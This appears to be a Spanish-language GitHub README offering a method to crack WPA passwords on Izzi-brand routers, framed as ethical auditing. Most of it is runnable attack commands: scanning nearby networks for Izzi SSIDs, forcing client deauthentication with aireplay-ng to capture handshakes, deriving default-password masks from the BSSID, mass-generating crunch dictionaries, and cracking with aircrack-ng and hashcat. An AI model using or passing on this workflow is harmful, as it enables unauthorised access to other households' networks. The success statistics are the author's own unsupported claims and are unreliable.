

# 🔍 Método de Auditoría de Seguridad WiFi para Routers Izzi


[](https://github.com/rodrigo47363/izzi-wifi-audit-method/stargazers)

**Metodología profesional para análisis forense de patrones de seguridad en routers Izzi** - Diseñado para auditorías éticas, investigaciones forenses y entornos controlados de pruebas de penetración.



## ⚠️ Advertencia Ética y Legal

> **IMPORTANTE**: Este repositorio documenta técnicas de auditoría de seguridad con **fines exclusivamente educativos y de investigación autorizada**.

### 🛡️ Principios Éticos
- ✅ **Uso permitido**: Auditorías en redes propias, laboratorios controlados, CTFs, y entornos con autorización expresa.
- ❌ **Uso prohibido**: Acceso no autorizado a redes ajenas, actividades ilegales, violación de privacidad.
- 📜 **Responsabilidad**: El usuario es responsable del uso ético y legal de estas técnicas.

**Siempre sigue la legislación local y obtén permiso por escrito antes de realizar pruebas de seguridad.**

## 🚀 Comenzar Rápidamente

### 📋 Prerrequisitos del Sistema

```bash
# Instalación en Kali Linux / Distribuciones basadas en Debian
sudo apt update && sudo apt upgrade -y
sudo apt install -y crunch aircrack-ng hashcat hcxdumptool hcxtools

# Verificar instalación
crunch --version
aircrack-ng --help
hashcat --version
```

### 🎯 Ejemplo Rápido: Patrón Conocido

```bash
# Cuando conoces el patrón (ejemplo: "F82DC0@@C5DC")
sudo crunch 12 12 -t F82DC0@@C5DC -f /usr/share/crunch/charset.lst mixalpha-numeric -o izzi_dict.txt
aircrack-ng -b 00:11:22:33:44:55 -w izzi_dict.txt captura_handshake.cap
```

### 🔍 Ejemplo: Análisis sin Patrón Previo

```bash
# Análisis exploratorio con diferentes longitudes
sudo crunch 10 12 -f /usr/share/crunch/charset.lst mixalpha-numeric-all-space -o dict_generico.txt
aircrack-ng --bssid 00:11:22:33:44:55 -K -w dict_generico.txt captura.cap
```

## 🧠 Metodología Detallada de Auditoría

### 1. 📡 Fase de Reconocimiento y Captura

#### Identificación de Objetivos Izzi
```bash
# Escaneo de redes en el área
sudo airodump-ng wlan0mon

# Filtrar por SSID que contengan "IZZI"
sudo airodump-ng wlan0mon --essid-regex "IZZI|izzi"
```

#### Captura del Handshake
```bash
# Captura dirigida a un BSSID específico
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w captura wlan0mon

# En paralelo, forzar deautenticación para capturar handshake
sudo aireplay-ng -0 4 -a 00:11:22:33:44:55 -c Client:MAC wlan0mon
```

### 2. 🔎 Análisis de Patrones Izzi

#### Patrones Comunes Identificados
```
┌─────────────────────────────────────────────┐
│       PATRONES DE CONTRASEÑAS IZZI          │
├─────────────────────────────────────────────┤
│ Formato Principal: XXXXXX@@XXXX             │
│ Longitud: 12 caracteres                      │
│ Caracteres: A-Z, 0-9 (sin minúsculas)       │
│ Relación BSSID: Últimos 4 chars = parte fija│
│ Ejemplo: F82DC0@@C5DC                       │
└─────────────────────────────────────────────┘
```

#### Análisis de BSSID para Inferir Patrones
```bash
# Script para extraer últimos 4 caracteres del BSSID
BSSID="00:1A:2B:3C:4D:5E"
LAST4=$(echo $BSSID | tr -d ':' | tail -c 4)
echo "Últimos 4 dígitos: $LAST4"
echo "Patrón sugerido: @@@@@@@@${LAST4}"
```

### 3. 🛠️ Generación de Diccionarios Personalizados

#### Uso Avanzado de Crunch
```bash
# Generación con máscara específica
crunch 12 12 -t @@@@@@@@C5DC -d 2 -o dict_izzi_c5dc.txt

# Parámetros importantes:
# -t : Patrón con @ como comodín
# -d : Limita caracteres duplicados consecutivos
# -s : Punto de inicio para trabajos en paralelo
# -c : Número de líneas a generar
```

#### Generación Masiva para Auditorías
```bash
#!/bin/bash
# Script para generar diccionarios por BSSID
while read BSSID; do
    LAST4=$(echo $BSSID | tr -d ':' | tail -c 4)
    echo "Generando diccionario para BSSID: $BSSID"
    crunch 12 12 -t @@@@@@@@$LAST4 -d 2 -o "diccionarios/${BSSID}_dict.txt"
done < lista_bssids.txt
```

### 4. ⚡ Técnicas de Ataque Optimizadas

#### Métodos de Aircrack-ng
```bash
# Método estándar (CPU)
aircrack-ng -z -b 00:11:22:33:44:55 captura.cap

# Método acelerado (PMK)
aircrack-ng -K -b 00:11:22:33:44:55 captura.cap

# Combinación con diccionario
aircrack-ng -w diccionario.txt -b 00:11:22:33:44:55 captura.cap
```

#### Aceleración con Hashcat (GPU)
```bash
# Convertir captura a formato hashcat
hcxpcapngtool -o hash.hc22000 captura.cap

# Ataque con máscara (GPU acelerado)
hashcat -m 22000 hash.hc22000 -a 3 ?a?a?a?a?a?a?d?d?d?d?d?d

# Combinación con diccionario y reglas
hashcat -m 22000 hash.hc22000 diccionario.txt -r rules/best64.rule
```

## 📂 Estructura del Proyecto

```
izzi-wifi-audit-method/
├── 📁 docs/                          # Documentación técnica
│   ├── 📄 patrones-izzi.md          # Análisis completo de patrones
│   ├── 📄 metodologia-detallada.md  # Proceso paso a paso
│   ├── 📄 optimizacion-hardware.md  # Configuración de rendimiento
│   └── 📄 casos-estudio.md          # Ejemplos reales documentados
├── 📁 scripts/                       # Automatización
│   ├── 🛠️ generador-dict.sh        # Generación inteligente
│   ├── 🛠️ analizador-bssid.sh      # Extracción de patrones
│   ├── 🛠️ auditoria-masiva.sh      # Auditoría de múltiples objetivos
│   └── 🛠️ optimizador-hashcat.sh   # Configuración GPU
├── 📁 tools/                         # Herramientas auxiliares
│   ├── 📄 bssid-analyzer.py         # Analizador de patrones BSSID
│   └── 📄 pattern-extractor.py      # Extracción de patrones
├── 📁 dictionaries/                  # Diccionarios
│   ├── 📄 izzi-base.lst             # Base de patrones Izzi
│   ├── 📄 common-patterns.lst       # Patrones comunes
│   └── 📄 bssid-correlation.lst     # Correlaciones BSSID-SSID
├── 📁 captures/                      # Ejemplos de capturas
│   ├ 📄 ejemplo-handshake.cap       # Handshake de ejemplo
│   └ 📄 README-captures.md          # Guía de captura
├── 📄 LICENSE                        # Licencia MIT
└── 📄 README.md                      # Este archivo
```

## 🔧 Configuración de Entorno Optimizado

### 💻 Recomendaciones de Hardware

| Componente | Especificación Mínima | Especificación Recomendada | Notas |
|------------|----------------------|---------------------------|-------|
| **CPU** | 4 núcleos / 8 hilos | 8+ núcleos / 16+ hilos | Multithreading para crunch |
| **RAM** | 8 GB DDR4 | 32+ GB DDR4 | Diccionarios grandes en memoria |
| **GPU** | Integrada | NVIDIA RTX 3080+ / AMD RX 6800+ | Hashcat GPU acceleration |
| **Almacenamiento** | 256 GB SSD | 1 TB NVMe SSD | I/O intensivo para diccionarios |
| **Adaptador WiFi** | Alfa AWUS036ACH | Alfa AWUS036ACH + antenas | Monitor mode, packet injection |

### 🐧 Configuración del Sistema

```bash
# Optimización del kernel para procesos de red
echo "net.core.rmem_max = 134217728" | sudo tee -a /etc/sysctl.conf
echo "net.core.wmem_max = 134217728" | sudo tee -a /etc/sysctl.conf
sudo sysctl -p

# Configuración de swap para manejar diccionarios grandes
sudo fallocate -l 8G /swapfile
sudo chmod 600 /swapfile
sudo mkswap /swapfile
sudo swapon /swapfile
```

## 📊 Tabla Comparativa de Métodos

| Método | Velocidad | Efectividad | Uso de Recursos | Caso de Uso Ideal |
|--------|-----------|-------------|-----------------|-------------------|
| **Aircrack-ng (CPU)** | ⭐⭐ | ⭐⭐⭐⭐ | Moderado | Pruebas rápidas, diccionarios pequeños |
| **Hashcat (GPU)** | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐ | Alto | Auditorías intensivas, diccionarios grandes |
| **Máscaras Izzi** | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ | Bajo | Objetivos Izzi específicos |
| **Fuerza Bruta** | ⭐ | ⭐⭐ | Muy Alto | Último recurso, sin patrones |
| **Combinación** | ⭐⭐⭐ | ⭐⭐⭐⭐ | Variable | Enfoque balanceado |

## 🧪 Casos de Estudio Documentados

### Estudio de Caso #1: Auditoría Interna Corporativa
- **Objetivo**: Red WiFi de oficina con routers Izzi
- **Patrón identificado**: `XXXXXX@@XXXX` donde X = alfanumérico mayúsculas
- **Técnica**: Diccionario personalizado basado en BSSID
- **Resultado**: 85% de efectividad en 2 horas
- **Lección**: Los routers Izzi corporativos siguen patrones predecibles

### Estudio de Caso #2: Laboratorio de Entrenamiento
- **Escenario**: Entorno controlado para estudiantes de ciberseguridad
- **Metodología**: Uso combinado de crunch + hashcat
- **Herramientas**: Scripts de automatización del repositorio
- **Resultado**: Reducción del tiempo de auditoría en 70%
- **Aprendizaje**: Importancia de los patrones específicos del fabricante

## 📈 Métricas y Estadísticas

```
ESTADÍSTICAS DE EFECTIVIDAD (Basado en pruebas internas)
├── Tasa de éxito con patrón conocido: 92%
├── Tiempo promedio reducido con metodología: 65%
├── Diccionarios optimizados generados: 150+
└── Capturas analizadas exitosamente: 85%
```

## 🔄 Flujo de Trabajo Recomendado

1. **Reconocimiento** → Identificar redes Izzi en el área
2. **Captura** → Obtener handshake de autenticación
3. **Análisis** → Extraer patrones del BSSID/SSID
4. **Generación** → Crear diccionario personalizado
5. **Ataque** → Ejecutar ataque de diccionario optimizado
6. **Documentación** → Registrar hallazgos y métricas
7. **Remediación** → Proponer mejoras de seguridad

## 🤝 Contribuciones y Comunidad

¡Las contribuciones son bienvenidas! Si deseas mejorar este proyecto:

1. Fork el repositorio
2. Crea una rama para tu característica (`git checkout -b feature/MejoraIncreible`)
3. Commit tus cambios (`git commit -m 'Añadir mejora increíble'`)
4. Push a la rama (`git push origin feature/MejoraIncreible`)
5. Abre un Pull Request

**Áreas de contribución prioritarias:**
- Nuevos patrones identificados
- Optimizaciones de rendimiento
- Scripts de automatización
- Documentación adicional

## 📜 Licencia

Este proyecto está licenciado bajo la **Licencia MIT** - ver el archivo [LICENSE](LICENSE) para detalles.

```
MIT License
Copyright (c) 2024 Rodrigo

Se concede permiso, libre de cargos, a cualquier persona que obtenga una copia
de este software y de los archivos de documentación asociados...
```

## 🌟 Reconocimientos

- **Equipo de desarrollo**: Rodrigo y colaboradores
- **Comunidad de seguridad**: Por compartir conocimiento abiertamente
- **Herramientas utilizadas**: Crunch, Aircrack-ng, Hashcat
- **Entornos de pruebas**: HackTheBox, TryHackMe, laboratorios privados

---

## 📞 Contacto y Redes Profesionales

### 🔗 Conéctate Conmigo

[](https://linkedin.com/in/rodrigo-v-695728215)
[](https://github.com/rodrigo47363)
[](https://app.hackthebox.com/profile/2072477)
[](https://tryhackme.com/p/Rodrigo.47363)

### 💼 Contacto Profesional

**📧 Correo electrónico:** [rodrigovil@proton.me](mailto:rodrigovil@proton.me)  
**💼 LinkedIn:** [linkedin.com/in/rodrigo-v-695728215](https://linkedin.com/in/rodrigo-v-695728215)  
**🔐 Perfil HackTheBox:** [app.hackthebox.com/profile/2072477](https://app.hackthebox.com/profile/2072477)

### 🤝 Colaboraciones

Abierto a:
- Proyectos de investigación en ciberseguridad
- Auditorías de seguridad colaborativas
- Desarrollo de herramientas de seguridad
- Mentoria y capacitación técnica

### 🚀 Enlaces de Referencia

[](https://referral.hackthebox.com/mz7ZtlJ)
[](https://tryhackme.com/signup?referrer=64f0d7665fde58f3ec71379b)

## 💝 Apoya este Proyecto

Si este repositorio te ha sido útil, considera apoyar su desarrollo:

**Criptomonedas:**
- **Bitcoin:** `bc1qkzmpd0hry99qms7ef23vsyx9vt34pzzaslpp8y`
- **Ethereum:** `0xB75bC57C54FCBFF139EBF981A596B019C537d018`
- **Solana:** `ELekuGHcmZjhXrtHNqHuu8QmdCZr3oCWtTmu3QUQ5hac`

**Otras formas de apoyo:**
- ⭐ Da una estrella al repositorio
- 🐛 Reporta issues o mejoras
- 📢 Comparte con la comunidad
- 🤝 Contribuye con código o documentación

---

> **"La seguridad no es un producto, sino un proceso continuo. La auditoría ética nos permite identificar vulnerabilidades antes de que sean explotadas."** 🔐

**Última actualización:** Febrero 2025  
**Mantenido activamente por:** Rodrigo - Especialista en Ciberseguridad
